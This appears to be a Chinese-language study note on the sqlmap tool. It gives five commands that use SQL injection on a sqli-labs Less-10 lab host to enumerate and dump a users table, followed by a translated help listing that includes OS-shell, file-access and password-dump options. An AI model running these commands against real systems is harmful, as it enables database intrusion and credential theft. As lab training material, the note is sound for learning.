

Sqlmap使用-Less10

python sqlmap.py -u http://10.16.2.3:8081/Less-10/?id=1 --batch --level=5 --risk=3
python sqlmap.py -u http://10.16.2.3:8081/Less-10/?id=1 --batch --dbs
python sqlmap.py -u http://10.16.2.3:8081/Less-10/?id=1 --batch -D security --tables
python sqlmap.py -u http://10.16.2.3:8081/Less-10/?id=1 --batch -D security -T users --columns
python sqlmap.py -u http://10.16.2.3:8081/Less-10/?id=1 --batch -D security -T users --dump

Options:
-h, --help Show basic help message and exit
-hh 显示高级帮助消息并退出
--version 显示程序的版本号并退出
-v VERBOSE 详细级别：0-6(默认为 1)
Target:
At least one of these options has to be provided to define the
target(s)
-u URL, --url=URL 目标URL (e.g. "http://www.site.com/vuln.php?id=1")
-d DIRECT 用于直接数据库连接的连接字符串
-l LOGFILE 从Burp或WebScarab代理日志文件中解析目标
-m BULKFILE 从文本文件中扫描多个目标
-r REQUESTFILE 从文件中加载HTTP请求
-g GOOGLEDORK 将Google dork结果处理为目标URL
-c CONFIGFILE 从配置INI文件中加载选项
请求:
这些选项可用于指定如何连接到目标URL
-A AGENT, --user.. HTTP User-Agent头部的值
-H HEADER, --hea.. 额外的头部(例如"X-Forwarded-For: 127.0.0.1")
--method=METHOD 强制使用给定的HTTP方法(例如PUT)
--data=DATA 要通过POST发送的数据字符串(例如"id=1")
--param-del=PARA.. 用于分割参数值的字符(例如&)
--cookie=COOKIE HTTP Cookie头部的值(例如"PHPSESSID=a8d127e..")
--cookie-del=COO.. 用于分割cookie值的字符(例如;)
--live-cookies=L.. 用于加载最新值的实时cookie文件
--load-cookies=L.. 包含Netscape/wget格式cookie的文件
--drop-set-cookie 忽略响应中的Set-Cookie头部
--mobile 通过HTTP User-Agent头部模拟智能手机
--random-agent 使用随机选择的HTTP User-Agent头部值
--host=HOST HTTP Host头部的值
--referer=REFERER HTTP Referer头部的值
--headers=HEADERS 额外的头部(例如"Accept-Language: fr\nETag: 123")
--auth-type=AUTH.. HTTP身份验证类型(Basic,Digest,Bearer等)
--auth-cred=AUTH.. HTTP身份验证凭据(用户名:密码)
--auth-file=AUTH.. HTTP身份验证PEM证书/私钥文件
--abort-code=ABO.. 在(有问题的)HTTP错误代码上中止(例如401)
--ignore-code=IG.. 忽略(有问题的)HTTP错误代码(例如401)
--ignore-proxy 忽略系统默认代理设置
--ignore-redirects 忽略重定向尝试
--ignore-timeouts 忽略连接超时
--proxy=PROXY 使用代理连接到目标URL
--proxy-cred=PRO.. 代理身份验证凭据(用户名:密码)
--proxy-file=PRO.. 从文件中加载代理列表
--proxy-freq=PRO.. 在给定列表中更改代理之间的请求次数
--tor 使用Tor匿名网络
--tor-port=TORPORT 设置Tor代理端口(非默认值)
--tor-type=TORTYPE 设置Tor代理类型(HTTP,SOCKS4或SOCKS5(默认))
--check-tor 检查Tor是否正确使用
--delay=DELAY 每个HTTP请求之间的延迟时间(秒)
--timeout=TIMEOUT 连接超时前等待的秒数(默认值30)
--retries=RETRIES 连接超时时的重试次数(默认值3)
--retry-on=RETRYON 在正则表达式匹配内容时重试请求(例如"drop")
--randomize=RPARAM 随机更改给定参数的值
--safe-url=SAFEURL 在测试期间频繁访问的URL地址
--safe-post=SAFE.. 发送到安全URL的POST数据
--safe-req=SAFER.. 从文件中加载安全的HTTP请求
--safe-freq=SAFE.. 在访问安全URL之间的常规请求次数
--skip-urlencode 跳过对负载数据的URL编码
--csrf-token=CSR.. 用于保存反CSRF令牌的参数
--csrf-url=CSRFURL 用于提取反CSRF令牌的URL地址
--csrf-method=CS.. 在访问反CSRF令牌页面时使用的HTTP方法
--csrf-data=CSRF.. 在访问反CSRF令牌页面时发送的POST数据
--csrf-retries=C.. 反CSRF令牌检索的重试次数(默认值0)
--force-ssl 强制使用SSL/HTTPS
--chunked 使用HTTP分块传输编码(POST)请求
--hpp 使用HTTP参数污染方法
--eval=EVALCODE 在请求之前评估提供的Python代码(例如"import
hashlib;id2=hashlib.md5(id).hexdigest()")
优化:
这些选项可用于优化sqlmap的性能
-o 打开所有优化开关
--predict-output 预测常见查询的输出
--keep-alive 使用持久的HTTP(s)连接
--null-connection 在没有实际HTTP响应体的情况下获取页面长度
--threads=THREADS 最大并发HTTP(s)请求数(默认值1)
注入:
这些选项可用于指定要测试的参数,提供自定义的注入载荷和可选的篡改脚本
-p TESTPARAMETER 可测试的参数
--skip=SKIP 跳过对给定参数的测试
--skip-static 跳过不显示为动态的参数的测试
--param-exclude=.. 用于排除测试的参数的正则表达式(例如"ses")
--param-filter=P.. 按位置选择可测试的参数(例如"POST")
--dbms=DBMS 强制指定后端DBMS的值
--dbms-cred=DBMS.. DBMS身份验证凭据(用户名:密码)
--os=OS 强制指定后端DBMS的操作系统
--invalid-bignum 使用大数来使值无效
--invalid-logical 使用逻辑操作使值无效
--invalid-string 使用随机字符串使值无效
--no-cast 关闭载荷转换机制
--no-escape 关闭字符串转义机制
--prefix=PREFIX 注入载荷前缀字符串
--suffix=SUFFIX 注入载荷后缀字符串
--tamper=TAMPER 使用给定的脚本对注入数据进行篡改
检测:
这些选项可用于自定义检测阶段
--level=LEVEL 要执行的测试级别(1-5,默认值1)
--risk=RISK 要执行的测试风险级别(1-3,默认值1)
--string=STRING 当查询评估为True时要匹配的字符串
--not-string=NOT.. 当查询评估为False时要匹配的字符串
--regexp=REGEXP 当查询评估为True时要匹配的正则表达式
--code=CODE 当查询评估为True时要匹配的HTTP代码
--smart 仅在存在正面启发式时执行彻底的测试
--text-only 仅基于文本内容比较页面
--titles 仅基于页面标题比较页面
技术:
这些选项可用于调整特定SQL注入技术的测试
--technique=TECH.. 要使用的SQL注入技术(默认值"BEUSTQ")
--time-sec=TIMESEC 延迟DBMS响应的秒数(默认值5)
--union-cols=UCOLS 要测试UNION查询SQL注入的列范围
--union-char=UCHAR 用于暴力破解列数的字符
--union-from=UFROM 在UNION查询SQL注入的FROM部分中使用的表
--union-values=U.. 用于UNION查询SQL注入的列值
--dns-domain=DNS.. 用于DNS泄露攻击的域名
--second-url=SEC.. 搜索第二次响应的结果页面URL
--second-req=SEC.. 从文件中加载第二次HTTP请求
指纹识别:
-f, --fingerprint 执行详细的DBMS版本指纹识别
枚举:
这些选项可用于枚举后端数据库管理系统中的信息、结构和数据
-a, --all 检索所有内容
-b, --banner 检索DBMS横幅
--current-user 检索DBMS当前用户
--current-db 检索DBMS当前数据库
--hostname 检索DBMS服务器主机名
--is-dba 检测DBMS当前用户是否为DBA
--users 枚举DBMS用户
--passwords 枚举DBMS用户密码哈希值
--privileges 枚举DBMS用户权限
--roles 枚举DBMS用户角色
--dbs 枚举DBMS数据库
--tables 枚举DBMS数据库表
--columns 枚举DBMS数据库表列
--schema 枚举DBMS模式
--count 检索表的条目数
--dump 转储DBMS数据库表条目
--dump-all 转储所有DBMS数据库表条目
--search 搜索列、表和/或数据库名称
--comments 在枚举过程中检查DBMS注释
--statements 检索在DBMS上运行的SQL语句
-D DB 要枚举的DBMS数据库
-T TBL 要枚举的DBMS数据库表
-C COL 要枚举的DBMS数据库表列
-X EXCLUDE 不要枚举的DBMS数据库标识符
-U USER 要枚举的DBMS用户
--exclude-sysdbs 在枚举表时排除DBMS系统数据库
--pivot-column=P.. 枢轴列名称
--where=DUMPWHERE 在转储表时使用WHERE条件
--start=LIMITSTART 要检索的第一个转储表条目
--stop=LIMITSTOP 要检索的最后一个转储表条目
--first=FIRSTCHAR 要检索的第一个查询输出单词字符
--last=LASTCHAR 要检索的最后一个查询输出单词字符
--sql-query=SQLQ.. 要执行的SQL语句
--sql-shell 提示进行交互式SQL shell
--sql-file=SQLFILE 从给定文件中执行SQL语句
暴力破解:
这些选项可用于运行暴力破解检查
--common-tables 检查常见表的存在
--common-columns 检查常见列的存在
--common-files 检查常见文件的存在
用户定义函数注入:
这些选项可用于创建自定义的用户定义函数
--udf-inject 注入自定义的用户定义函数
--shared-lib=SHLIB 共享库的本地路径
文件系统访问:
这些选项可用于访问后端数据库管理系统的底层文件系统
--file-read=FILE.. 从后端DBMS文件系统中读取文件
--file-write=FIL.. 在后端DBMS文件系统上写入本地文件
--file-dest=FILE.. 要写入的后端DBMS绝对文件路径
操作系统访问:
这些选项可用于访问后端数据库管理系统的底层操作系统
--os-cmd=OSCMD 执行操作系统命令
--os-shell 提示进行交互式操作系统shell
--os-pwn 提示进行OOB shell、Meterpreter或VNC
--os-smbrelay 一键提示进行OOB shell、Meterpreter或VNC
--os-bof 存储过程缓冲区溢出利用
--priv-esc 数据库进程用户权限提升
--msf-path=MSFPATH Metasploit Framework安装的本地路径
--tmp-path=TMPPATH 临时文件目录的远程绝对路径
Windows注册表访问:
这些选项可用于访问后端数据库管理系统的Windows注册表
--reg-read 读取Windows注册表键值
--reg-add 写入Windows注册表键值数据
--reg-del 删除Windows注册表键值
--reg-key=REGKEY Windows注册表键
--reg-value=REGVAL Windows注册表键值
--reg-data=REGDATA Windows注册表键值数据
--reg-type=REGTYPE Windows注册表键值类型
常规:
这些选项可用于设置一些常规工作参数
-s SESSIONFILE 从存储的(.sqlite)文件中加载会话
-t TRAFFICFILE 将所有HTTP流量记录到文本文件中
--abort-on-empty 在结果为空时中止数据检索
--answers=ANSWERS 设置预定义的答案(例如"quit=N,follow=N")
--base64=BASE64P.. 包含Base64编码数据的参数
--base64-safe 使用URL和文件名安全的Base64字母表(RFC 4648)
--batch 不要询问用户输入,使用默认行为
--binary-fields=.. 具有二进制值的结果字段(例如"digest")
--check-internet 在评估目标之前检查互联网连接
--cleanup 从sqlmap特定的UDF和表中清理DBMS
--crawl=CRAWLDEPTH 从目标URL开始爬取网站
--crawl-exclude=.. 用于排除爬取的页面的正则表达式(例如"logout")
--csv-del=CSVDEL CSV输出中使用的分隔字符(默认值",")
--charset=CHARSET 盲SQL注入字符集(例如"0123456789abcdef")
--dump-file=DUMP.. 将转储的数据存储到自定义文件中
--dump-format=DU.. 转储数据的格式(CSV(默认值),HTML或SQLITE)
--eta 为每个输出显示预计到达时间
--flush-session 清除当前目标的会话文件
--forms 解析和测试目标URL上的表单
--fresh-queries 忽略会话文件中存储的查询结果
--gpage=GOOGLEPAGE 使用指定的页码从Google dork结果中获取
--har=HARFILE 将所有HTTP流量记录到HAR文件中
--hex 在数据检索过程中使用十六进制转换
--output-dir=OUT.. 自定义输出目录路径
--parse-errors 解析和显示来自响应的DBMS错误消息
--preprocess=PRE.. 用于预处理的给定脚本(请求)
--postprocess=PO.. 用于后处理的给定脚本(响应)
--repair 重新转储具有未知字符标记(?)的条目
--save=SAVECONFIG 将选项保存到配置INI文件中
--scope=SCOPE 用于过滤目标的正则表达式
--skip-heuristics 跳过启发式检测漏洞
--skip-waf 跳过启发式检测WAF/IPS保护
--table-prefix=T.. 用于临时表的前缀(默认值："sqlmap")
--test-filter=TE.. 通过负载和/或标题选择测试(例如ROW)
--test-skip=TEST.. 通过负载和/或标题跳过测试(例如BENCHMARK)
--time-limit=TIM.. 以秒为单位设置运行时间限制(例如3600)
--web-root=WEBROOT Web服务器文档根目录(例如"/var/www")
杂项:
这些选项不属于任何其他类别
-z MNEMONICS 使用短助记符(例如"flu,bat,ban,tec=EU")
--alert=ALERT 在发现SQL注入时运行主机操作系统命令
--beep 在提问时和/或发现漏洞时发出蜂鸣声
--dependencies 检查缺失的(可选的)sqlmap依赖项
--disable-coloring 禁用控制台输出着色
--list-tampers 显示可用的篡改脚本列表
--no-logging 禁用日志记录到文件
--offline 在离线模式下工作(仅使用会话数据)
--purge 安全地从sqlmap数据目录中删除所有内容
--results-file=R.. 多目标模式下CSV结果文件的位置
--shell 提示进行交互式sqlmap shell
--tmp-dir=TMPDIR 用于存储临时文件的本地目录
--unstable 调整不稳定连接的选项
--update 更新sqlmap
--wizard 面向初学者用户的简单向导界面